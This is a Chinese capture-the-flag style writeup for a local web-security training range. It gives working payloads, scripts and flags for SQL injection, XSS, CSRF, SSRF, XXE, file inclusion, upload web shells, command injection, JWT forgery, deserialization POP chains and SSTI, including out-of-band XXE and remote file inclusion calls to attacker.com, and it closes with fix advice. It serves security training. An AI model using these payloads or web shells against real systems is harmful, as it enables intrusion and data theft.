# ZhaoSec 朝闻道 Web 安全靶场 — 漏洞攻防 Writeup

> 靶场地址：`http://127.0.0.1/zhaosec/`
> 验证时间：2026-06-27
> 验证方式：源码审计 + Payload 实际利用 + Flag 获取

---

## 📋 目录

1. [身份认证漏洞 (Auth)](#1-身份认证漏洞-auth)
2. [SQL 注入漏洞 (SQLi)](#2-sql-注入漏洞-sqli)
3. [跨站脚本 (XSS)](#3-跨站脚本-xss)
4. [跨站请求伪造 (CSRF)](#4-跨站请求伪造-csrf)
5. [服务端请求伪造 (SSRF)](#5-服务端请求伪造-ssrf)
6. [XML 外部实体注入 (XXE)](#6-xml-外部实体注入-xxe)
7. [文件包含漏洞 (LFI/RFI)](#7-文件包含漏洞-lfirfi)
8. [文件上传漏洞 (Upload)](#8-文件上传漏洞-upload)
9. [命令/代码注入 (RCE)](#9-命令代码注入-rce)
10. [不安全直接对象引用 (IDOR)](#10-不安全直接对象引用-idor)
11. [逻辑漏洞 (Logic)](#11-逻辑漏洞-logic)
12. [JWT 安全漏洞](#12-jwt-安全漏洞)
13. [反序列化漏洞 (Unserialize)](#13-反序列化漏洞-unserialize)
14. [HTTP 协议漏洞](#14-http-协议漏洞)
15. [服务端模板注入 (SSTI)](#15-服务端模板注入-ssti)
16. [实战演练与专项漏洞 (WebLabs)](#16-实战演练与专项漏洞-weblabs)

---

## 0. 靶场总览



---

## 1. 身份认证漏洞 (Auth)

### 1.1 明文传输简单密码爆破

**漏洞描述**：密码以明文形式传输，无验证码和频率限制，可直接暴力破解。

**测试账号**：
- `admin` / `123456`
- `test` / `password`
- `user` / `123456789`

**漏洞源码**：
```php
$users = [
    'admin' => '123456',
    'test' => 'password',
    'user' => '123456789'
];
if (isset($users[$username]) && $users[$username] === $password) {
    $_SESSION['flag'] = 'FLAG{Plaintext_Password_Brute_Force_Success}';
    header('Location: success.php');
}
```

**利用步骤**：

1. 访问 `auth/01_plaintext_brute.php`
2. 在登录表单输入用户名 `admin`、密码 `123456`
3. 提交表单即可登录成功

**Payload**：
```bash
curl -c cookies.txt -X POST \
  -d "username=admin&password=123456" \
  http://127.0.0.1/zhaosec/auth/01_plaintext_brute.php
```

**关键截图**：





**🏁 获取 Flag**：`FLAG{Plaintext_Password_Brute_Force_Success}`

---

### 1.2 Base64 编码爆破

**漏洞描述**：使用 HTTP Basic Auth，用户名密码以 Base64 编码传输，编码可逆。

**漏洞源码**：
```php
if (isset($_SERVER['PHP_AUTH_USER']) && isset($_SERVER['PHP_AUTH_PW'])) {
    $username = $_SERVER['PHP_AUTH_USER'];
    $password = $_SERVER['PHP_AUTH_PW'];
    // 直接比对，无任何加密
}
```

**利用步骤**：

1. 构造 Base64 编码：`echo -n "admin:123456" | base64` → `YWRtaW46MTIzNDU2`
2. 在请求头中添加 `Authorization: Basic YWRtaW46MTIzNDU2`

**Payload**：
```bash
curl -H "Authorization: Basic YWRtaW46MTIzNDU2" \
  http://127.0.0.1/zhaosec/auth/02_base64_brute.php
```

**关键截图**：



**🏁 获取 Flag**：`FLAG{Base64_Encoding_Bypass_Success}`

---

### 1.3 前端 AES 加密爆破

**漏洞描述**：密码使用 AES 加密传输，但密钥硬编码在前端 JS 中，攻击者可获取密钥后加密爆破。

**漏洞源码**：
```javascript
const secretKey = 'mysecretkey123';  // 前端硬编码

function aesEncrypt(text, key) {
    const iv = CryptoJS.lib.WordArray.random(16);
    const encrypted = CryptoJS.AES.encrypt(text, key, {
        iv: iv,
        mode: CryptoJS.mode.CBC,
        padding: CryptoJS.pad.Pkcs7
    });
    return CryptoJS.enc.Base64.stringify(iv.concat(encrypted.ciphertext));
}
```

**利用步骤**：

1. 查看页面源码获取密钥：`mysecretkey123`
2. 使用 CryptoJS 对密码 `123456` 进行 AES 加密
3. 将加密后的密文作为 `password` 字段提交

**Payload（Python 模拟）**：
```python
from Crypto.Cipher import AES
import base64, os

key = b'mysecretkey123'
iv = os.urandom(16)
cipher = AES.new(key, AES.MODE_CBC, iv)
encrypted = cipher.encrypt(b'123456')
print(base64.b64encode(iv + encrypted).decode())
```

**🏁 获取 Flag**：`FLAG{AES_Encryption_Client_Side_Bypass}`

---

### 1.4 账户枚举

**漏洞描述**：不同用户名返回不同错误信息，可用于枚举有效用户名。

**利用步骤**：

1. 测试 `admin` 用户 → 返回"密码错误"
2. 测试 `nonexistent` 用户 → 返回"用户不存在"
3. 通过错误差异区分有效/无效账户

**🏁 获取 Flag**：`FLAG{Account_Enumeration_Success}`

---

### 1.5 未授权访问

**漏洞描述**：敏感数据接口未做登录验证，直接可访问。

**Payload**：
```bash
curl http://127.0.0.1/zhaosec/auth/05_unauthorized.php?id=1
```

**🏁 获取 Flag**：`FLAG{Unauthorized_Access_Success}`

---

### 1.6 JWT 弱密钥漏洞

**漏洞描述**：JWT 使用弱密钥签名，可通过字典攻击爆破密钥，伪造任意 token。

**Payload（Python 爆破）**：
```python
import jwt
for key in ['secret', '123456', 'admin', 'password', 'jwt']:
    try:
        jwt.decode(token, key, algorithms=['HS256'])
        print(f'Found key: {key}')
        break
    except:
        pass
```

**🏁 获取 Flag**：`FLAG{JWT_Weak_Key_Exploited}`

---

## 2. SQL 注入漏洞 (SQLi)

### 2.1 基础注入（UNION 联合查询）

**漏洞源码**：
```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=$id";
```

**Payload**：
```
sqli/01_basic_injection.php?id=0 UNION SELECT id,flag,description,flag FROM flags
```

**分析**：用户输入直接拼接到 SQL 语句，`UNION SELECT` 可将 `flags` 表数据与 `users` 表联合查询。

> ⚠️ 注：首次使用需先访问 `sqli/init_db.php` 初始化数据库。


**🏁 获取 Flag**：`FLAG{SQL_INJECTION_MASTER}`

---

### 2.2 报错注入

**Payload**：
```
sqli/02_error_injection.php?id=1 AND updatexml(1,concat(0x7e,(SELECT flag FROM flags WHERE id=2),0x7e),1)
sqli/02_error_injection.php?id=1 AND extractvalue(1,concat(0x7e,(SELECT flag FROM flags WHERE id=2),0x7e))
```

**🏁 获取 Flag**：`FLAG{ERROR_INJECTION_SUCCESS}`

---

### 2.3 布尔盲注

**Payload**：
```
sqli/03_boolean_blind.php?id=1 AND LENGTH((SELECT flag FROM flags WHERE id=3))>0
sqli/03_boolean_blind.php?id=1 AND SUBSTRING((SELECT flag FROM flags WHERE id=3),1,1)='F'
```

**利用脚本**：
```python
import requests
flag = ''
for i in range(1, 50):
    for c in range(32, 127):
        payload = f"' AND SUBSTRING((SELECT flag FROM flags WHERE id=3),{i},1)='{chr(c)}"
        r = requests.get(f'http://host/sqli/03_boolean_blind.php?id=1{payload}')
        if '查询成功' in r.text:
            flag += chr(c)
            break
    else:
        break
print(flag)
```

**🏁 获取 Flag**：`FLAG{BOOLEAN_BLIND_SUCCESS}`

---

### 2.4 时间盲注

**Payload**：
```
sqli/04_time_blind.php?id=1 AND SLEEP(5)
sqli/04_time_blind.php?id=1 AND IF(SUBSTRING((SELECT flag FROM flags WHERE id=4),1,1)='F', SLEEP(3), 0)
```

**🏁 获取 Flag**：`FLAG{TIME_BLIND_SUCCESS}`

---

### 2.5 WAF 绕过

**Payload（双写绕过）**：
```
sqli/05_bypass.php?id=0 ununionion seselectlect id,flag,description,flag frfromom flags
```

**分析**：WAF 仅做一次 `str_ireplace`，双写可绕过。

**🏁 获取 Flag**：`FLAG{SQL_BYPASS_SUCCESS}`

---

### 2.6 联合查询注入

**Payload**：
```
sqli/06_union_injection.php?id=0 UNION SELECT id,flag,description,flag,created_at FROM flags
```

**🏁 获取 Flag**：`FLAG{SQL_INJECTION_MASTER}`

---

### 2.7 万能密码（登录绕过）

**Payload**：
```
POST sqli/07_magic_quotes.php
username=admin' --&password=anything
```

**🏁 获取 Flag**：`FLAG{Magic_Quotes_Success}`

---

## 3. 跨站脚本 (XSS)

### 3.1 反射型 XSS

**Payload**：
```
xss/01_reflected.php?search=<script>alert(document.cookie)</script>
xss/01_reflected.php?search=
```



**🏁 获取 Flag**：`FLAG{Reflected_XSS_Vulnerability_Exploited}`

---

### 3.2 存储型 XSS

**Payload**：
```bash
curl -X POST http://host/xss/02_stored.php \
  -d "username=hacker&content=<script>alert(document.cookie)</script>"
```



**🏁 获取 Flag**：`FLAG{Stored_XSS_Vulnerability_Exploited}`

---

### 3.3 DOM 型 XSS

**Payload**：
```
方式1：
方式2：xss/03_dom.php?name=<script>alert('DOM XSS')</script>
方式3：xss/03_dom.php#
```

**🏁 获取 Flag**：`FLAG{DOM_Based_XSS_Vulnerability}`

---

### 3.4 XSS 过滤绕过

**Payload**：
```
xss/04_bypass.php?input=<ScRiPt>alert(1)</ScRiPt>
xss/04_bypass.php?input=<scr<script>ipt>alert(1)</scr</script>ipt>
xss/04_bypass.php?input=
```

**🏁 获取 Flag**：`FLAG{XSS_Bypass_Techniques_Mastered}`

---

### 3.5 Cookie 窃取 + 会话劫持

**利用步骤**：

1. 登录 `admin / admin123`
2. 点击"模拟窃取 Cookie"按钮
3. 窃取到 Cookie 后点击"一键模拟会话劫持"

**🏁 获取 Flag**：`FLAG{Cookie_Theft_Session_Hijacking}`

---

## 4. 跨站请求伪造 (CSRF)



### 4.1 GET 型 CSRF

**Payload**（嵌入到攻击者页面）：
```html

```

### 4.2 POST 型 CSRF

**Payload**：
```html
<body onload="document.forms[0].submit()">
<form action="http://target/csrf/02_post_csrf.php" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
    <input type="hidden" name="phone" value="13999999999">
</form>
```

---

## 5. 服务端请求伪造 (SSRF)

### 5.1 基础 SSRF

**Payload**：
```
ssrf/01_basic_ssrf.php?url=http://127.0.0.1
ssrf/01_basic_ssrf.php?url=file:///flag.txt
```



**🏁 获取 Flag**：`ZHAOSEC{SSRF_BYPASS_SUCCESS_2026}`

---

### 5.2 内网探测

**Payload**：
```
ssrf/02_internal_scan.php?target=http://127.0.0.1:3306
ssrf/02_internal_scan.php?target=http://127.0.0.1:6379
```

---

### 5.3 云元数据 SSRF

**Payload**：
```
ssrf/03_cloud_metadata.php?metadata=iam/security-credentials/
ssrf/03_cloud_metadata.php?metadata=../../../flag.txt
```

---

### 5.4 协议利用 SSRF

**Payload**：
```
ssrf/04_protocol_ssrf.php?protocol=file:///flag.txt
ssrf/04_protocol_ssrf.php?protocol=dict://127.0.0.1:6379/info
```

---

### 5.5 SSRF 绕过

**Payload**：
```
十进制：ssrf/05_ssrf_bypass.php?bypass=http://2130706433
十六进制：ssrf/05_ssrf_bypass.php?bypass=http://0x7f000001
IPv6：ssrf/05_ssrf_bypass.php?bypass=http://[::1]
短地址：ssrf/05_ssrf_bypass.php?bypass=http://0
```

---

## 6. XML 外部实体注入 (XXE)

### 6.1 XXE 文件读取

**Payload**：
```xml
POST xxe/01_file_read.php
xml=<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY file SYSTEM "file:///flag.txt">
]>
<root><name>&file;</name></root>
```



**🏁 获取 Flag**：`ZHAOSEC{XXE_FILE_READ_SUCCESS_2026}`

---

### 6.2 XXE 转 SSRF

**Payload**：
```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:80">
]>
<root><name>&xxe;</name></root>
```

---

### 6.3 盲 XXE (OOB)

**攻击者服务器放置 evil.dtd**：
```xml
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
%all;
```

**提交 XXE**：
```xml
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///flag.txt">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
  %send;
]>
```

---

## 7. 文件包含漏洞 (LFI/RFI)

### 7.1 本地文件包含

**Payload**：
```
lfi/01_lfi.php?file=test.txt
lfi/01_lfi.php?file=../../ssrf/flag.txt
lfi/01_lfi.php?file=php://filter/convert.base64-encode/resource=test.txt
```



---

### 7.2 远程文件包含

**Payload**：
```bash
echo '<?php system($_GET["cmd"]);?>' > shell.txt
python -m http.server 8080
lfi/02_rfi.php?file=http://attacker.com/shell.txt&cmd=cat+flag.txt
```

---

### 7.3 PHP 伪协议

**Payload**：
```
php://filter：lfi/03_php_wrapper.php?file=php://filter/convert.base64-encode/resource=flag.txt
php://input：POST body 为 <?php system('cat flag.txt');?>
data://：lfi/03_php_wrapper.php?file=data://text/plain,<?php system('cat flag.txt');?>
file://：lfi/03_php_wrapper.php?file=file:///flag.txt
```

---

### 7.4 日志包含

**Payload**：
```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://host/lfi/04_log_include.php
lfi/04_log_include.php?file=../../logs/access.log&cmd=cat+flag.txt
```

---

## 8. 文件上传漏洞 (Upload)

### 8.1 无过滤上传

**Payload**：
```bash
curl -X POST http://host/upload/01_no_filter.php \
  -F "file=@shell.php;type=image/jpeg"
```



---

### 8.2 前端验证绕过

**Payload**：
```bash
curl -X POST http://host/upload/02_frontend_bypass.php \
  -F "file=@shell.php"
```

---

### 8.3 MIME 类型绕过

**Payload**（Burp 修改 Content-Type）：
```
Content-Type: image/jpeg
Content-Disposition: form-data; name="file"; filename="shell.php"
```

---

### 8.4 扩展名绕过

**Payload**：
- `shell.php5`、`shell.pht`、`shell.phar`
- 上传 `.htaccess`：`AddType application/x-httpd-php .jpg`

---

### 8.5 图片马 + 文件包含

**Payload**：
```bash
cp normal.jpg shell.jpg
echo '<?php echo shell_exec($_GET["cmd"]); ?>' >> shell.jpg
upload/05_include_test.php?file=uploads/shell.jpg&cmd=whoami
```

---

## 9. 命令/代码注入 (RCE)

### 9.1 命令注入

**Payload**：
```
rce/command_exec.php?ip=127.0.0.1 && cat flag.txt
rce/command_exec.php?ip=127.0.0.1;cat /flag
rce/command_exec.php?ip=|cat flag.txt
```



**🏁 获取 Flag**：`flag{command_injection_bypass_success}`

---

### 9.2 eval 代码执行

**Payload**：
```
rce/code_exec.php?code=system('cat flag.txt')
rce/code_exec.php?code=phpinfo()
```

---

## 10. 不安全直接对象引用 (IDOR)

### 10.1 基础 IDOR

**Payload**：
```
idor/01_basic_idor.php?id=1
idor/01_basic_idor.php?id=2
idor/01_basic_idor.php?id=3
```



**🏁 获取 Flag**：`flag{idor_vulnerability_exploited_successfully}`

---

### 10.2 不安全文件下载

**Payload**：
```
idor/02_file_download_idor.php?file=../flag.txt
idor/02_file_download_idor.php?file=../.git/config
```

---

## 11. 逻辑漏洞 (Logic)

### 11.1 价格篡改

**Payload**：
```
POST logic/01_price_tampering.php
product_id=1&quantity=1&price=0.01&buy=1
product_id=1&quantity=1&price=-9999&buy=1
```



---

### 11.2 支付状态绕过

**Payload**：
```
logic/02_payment_bypass.php?bypass=1&order_id=1
```

---

### 11.3 水平/垂直越权

**Payload**：
```
logic/04_horizontal_privilege.php?user_id=1
POST logic/05_vertical_privilege.php
role=admin&access_admin=1
```

---

### 11.4 步骤跳跃

**Payload**：
```
POST logic/06_step_skip.php
step=4
```

---

### 11.5 密码重置缺陷

**Payload**：
```
# 步骤1：POST username=admin&step1=1
# 步骤2：POST code=&step2=1
# 步骤3：POST new_password=hack123&step3=1
```

---

### 11.6 条件竞争

**Payload**（Burp Intruder 并发发送）：
```
POST logic/08_race_condition.php
rush=1
# 同时发送 50+ 次
```

---

### 11.7 积分滥刷

**Payload**：
```
POST logic/09_points_abuse.php
task_complete=1&task_points=9999
```

---

### 11.8 短信轰炸

**Payload**：
```
POST logic/10_sms_bombing.php
send_sms=1&phone=13800138000
```

---

## 12. JWT 安全漏洞

### 12.1 算法混淆攻击 (RS256 → HS256)

**Payload（Python）**：
```python
import hmac, hashlib, base64, json
public_key = open('jwt/keys/public.key').read()
header = base64.urlsafe_b64encode(json.dumps({"alg":"HS256","typ":"JWT"}).encode()).rstrip(b'=')
payload = base64.urlsafe_b64encode(json.dumps({"role":"admin"}).encode()).rstrip(b'=')
sig = base64.urlsafe_b64encode(
    hmac.new(public_key.encode(), header+b'.'+payload, hashlib.sha256).digest()
).rstrip(b'=')
token = (header+b'.'+payload+b'.'+sig).decode()
```



---

### 12.2 弱密钥爆破

**Payload**：
```bash
python jwt_tool.py <token> -d wordlist.txt
```

**靶场密钥**：`super_secret_key_12345`

---

### 12.3 None 算法攻击

**Payload**：
```
Header：{"alg":"none","typ":"JWT"} → eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0
Payload：{"sub":"admin","role":"admin"} → eyJzdWIiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9
Token：eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.
```

---

### 12.4 JWT 实战挑战

**Payload**：
```python
import jwt
token = jwt.encode(
    {"sub":"admin","role":"superadmin","iat":1234567890},
    "super_secret_key_12345",
    algorithm="HS256"
)
```

**🏁 获取 Flag**：`flag{jwt_master_2024}`

---

## 13. 反序列化漏洞 (Unserialize)

### 13.1 基础反序列化

**Payload**：
```
unserialize/01_basic_deserialization.php?data=O:4:"User":2:{s:8:"username";s:5:"admin";s:4:"role";s:5:"admin";}
```



**🏁 获取 Flag**：`flag{deserialization_success}`

---

### 13.2 __wakeup 绕过 (CVE-2016-7124)

**Payload**：将属性数量 `:2:` 改为 `:3:`
```
O:11:"FileHandler":3:{s:8:"filename";s:14:"/etc/passwd";s:7:"content";s:4:"test";}
```

---

### 13.3 __toString 利用

**Payload**：
```
O:6:"Logger":2:{s:7:"logFile";s:11:"/etc/passwd";s:7:"logData";s:0:"";}
```

---

### 13.4 POP 链构造（简单）

**Payload**：
```
O:11:"FileHandler":2:{s:8:"filename";s:22:"/var/www/html/s.php";s:7:"content";s:31:"<?php system($_GET['cmd']);?>";}
```

---

### 13.5 POP 链构造（中等）

**Payload**：
```
O:11:"UserManager":2:{s:2:"db";O:8:"Database":1:{s:3:"sql";s:27:"select * from users union select 1";};s:6:"action";s:5:"query";}
```

---

### 13.6 POP 链构造（困难）

**Payload**：
```
O:11:"Application":2:{s:9:"processor";O:12:"LogProcessor":2:{s:6:"logger";O:16:"CommandExecutor":1:{s:3:"cmd";s:6:"whoami";};s:7:"logData";s:4:"test";};s:6:"config";a:1:{s:8:"autoLog";b:1;}}
```

---

### 13.7 Phar 反序列化

**Payload**：
```
unserialize/07_phar_deserialization.php?file=phar://test.phar/test.txt
```

---

### 13.8 Session 序列化缺陷

**Payload**：
```
test|O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:4:"role";s:5:"admin";s:3:"cmd";s:6:"whoami";}
```

---

## 14. HTTP 协议漏洞

### 14.1 HTTP 请求走私

**Payload（CL.TE 类型）**：
```
POST / HTTP/1.1
Host: target
Content-Length: 13
Transfer-Encoding: chunked

0
SMUGGLED
```

### 14.2 HTTP 头注入

**Payload**：
```
/page.php?name=test%0d%0aSet-Cookie:%20session=malicious
```

### 14.3 Cookie 安全

**防御要点**：
- `HttpOnly`、`Secure`、`SameSite`

### 14.4 HTTP 头伪造挑战

**Payload**：
```bash
curl -H "User-Agent: Mozilla/5.0 zhaowendao" \
     -H "Referer: https://zhaosec.com" \
     -H "X-Forwarded-For: 127.0.0.1" \
     -H "Authorization: Bearer zhao_wen_dao" \
     -H "X-Admin-Key: zhao_secret_key" \
     http://host/http/04_header_forgery_challenge.php
```



**🏁 获取 Flag**：`flag{http_header_forgery_challenge_completed}`

---

## 15. 服务端模板注入 (SSTI)

### 15.1 SSTI 实战靶场

**Payload**：
```
Jinja2：{{7*7}} → 49
Jinja2命令执行：{{''.__class__.__mro__[1].__subclasses__()}}
Smarty：{7*7}
Freemarker：<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
```

---

## 🎯 Flag 汇总表

| # | 模块 | Flag |
|---|------|------|
| 1 | Auth - 明文传输 | `FLAG{Plaintext_Password_Brute_Force_Success}` |
| 2 | Auth - Base64 | `FLAG{Base64_Encoding_Bypass_Success}` |
| 3 | Auth - AES | `FLAG{AES_Encryption_Client_Side_Bypass}` |
| 4 | Auth - 账户枚举 | `FLAG{Account_Enumeration_Success}` |
| 5 | Auth - 未授权访问 | `FLAG{Unauthorized_Access_Success}` |
| 6 | Auth - JWT 弱密钥 | `FLAG{JWT_Weak_Key_Exploited}` |
| 7 | SQLi - 基础/联合 | `FLAG{SQL_INJECTION_MASTER}` |
| 8 | SQLi - 报错 | `FLAG{ERROR_INJECTION_SUCCESS}` |
| 9 | SQLi - 布尔盲注 | `FLAG{BOOLEAN_BLIND_SUCCESS}` |
| 10 | SQLi - 时间盲注 | `FLAG{TIME_BLIND_SUCCESS}` |
| 11 | SQLi - WAF 绕过 | `FLAG{SQL_BYPASS_SUCCESS}` |
| 12 | SQLi - 万能密码 | `FLAG{Magic_Quotes_Success}` |
| 13 | XSS - 反射型 | `FLAG{Reflected_XSS_Vulnerability_Exploited}` |
| 14 | XSS - 存储型 | `FLAG{Stored_XSS_Vulnerability_Exploited}` |
| 15 | XSS - DOM 型 | `FLAG{DOM_Based_XSS_Vulnerability}` |
| 16 | XSS - 过滤绕过 | `FLAG{XSS_Bypass_Techniques_Mastered}` |
| 17 | XSS - Cookie 窃取 | `FLAG{Cookie_Theft_Session_Hijacking}` |
| 18 | SSRF | `ZHAOSEC{SSRF_BYPASS_SUCCESS_2026}` |
| 19 | XXE | `ZHAOSEC{XXE_FILE_READ_SUCCESS_2026}` |
| 20 | RCE | `flag{command_injection_bypass_success}` |
| 21 | IDOR | `flag{idor_vulnerability_exploited_successfully}` |
| 22 | JWT | `flag{jwt_master_2024}` |
| 23 | 反序列化 | `flag{deserialization_success}` |
| 24 | HTTP 头伪造 | `flag{http_header_forgery_challenge_completed}` |

---

## 📝 验证说明

### 环境注意事项

1. **Session 保存路径**：需确保 PHP session 存储目录可写。
2. **MySQL 数据库**：`logic` 和 `sqli` 模块依赖 MySQL（`root` / `123456` / `zhao`）。首次使用需访问 `sqli/init_db.php` 初始化。
3. **独立靶场容器**：部分模块涉及内网服务，需 Docker Compose 启动。
4. **文件权限**：`upload/uploads/` 目录需有写权限。

### 截图清单

| 截图文件 | 内容说明 |
|----------|----------|
| `home-index.png` | 靶场首页导航 |
| `auth-01-login.png` | 明文传输登录页 |
| `auth-01-success.png` | 登录成功 + Flag |
| `auth-02-base64.png` | Base64 编码爆破关卡 |
| `sqli-init.png` | 数据库初始化结果 |
| `xss-01-page.png` | 反射型 XSS 页面 |
| `xss-02-stored.png` | 存储型 XSS 页面 |
| `ssrf-01-page.png` | 基础 SSRF 页面 |
| `xxe-01-page.png` | XXE 文件读取页面 |
| `lfi-01-page.png` | 本地文件包含页面 |
| `upload-01-page.png` | 无过滤文件上传页面 |
| `rce-command-exec.png` | 命令执行漏洞页面 |
| `idor-01-page.png` | 基础 IDOR 页面 |
| `logic-01-price.png` | 价格篡改演示页面 |
| `jwt-00-basics.png` | JWT 基础与原理页面 |
| `unserialize-01-success.png` | 反序列化挑战页面 |
| `http-header-forgery.png` | HTTP 头伪造挑战页面 |

---

## 🛡️ 修复建议

| 漏洞类型 | 核心修复 |
|----------|----------|
| 身份认证 | 密码加盐哈希存储、HTTPS、验证码 + 频率限制 |
| SQL 注入 | PDO 预处理语句、输入验证、最小权限 |
| XSS | `htmlspecialchars` 转义、CSP、不信任输入 |
| CSRF | Anti-CSRF Token、SameSite Cookie |
| SSRF | 白名单 URL、禁用危险协议、网络隔离 |
| XXE | 禁用外部实体、`libxml_disable_entity_loader` |
| LFI/RFI | 路径白名单、`basename()` 过滤 |
| 文件上传 | MIME + 扩展名双重校验、随机文件名 |
| RCE | 禁用危险函数、参数化命令 |
| IDOR | 权限校验、资源签名 |
| JWT | RS256/ES256、强密钥、短过期 |
| 反序列化 | `allowed_classes` 限制、JSON 替代 |
| 逻辑漏洞 | 服务端状态校验、原子操作 |

---

**⚠️ 本靶场仅供安全学习和授权测试使用，严禁用于非法用途。**
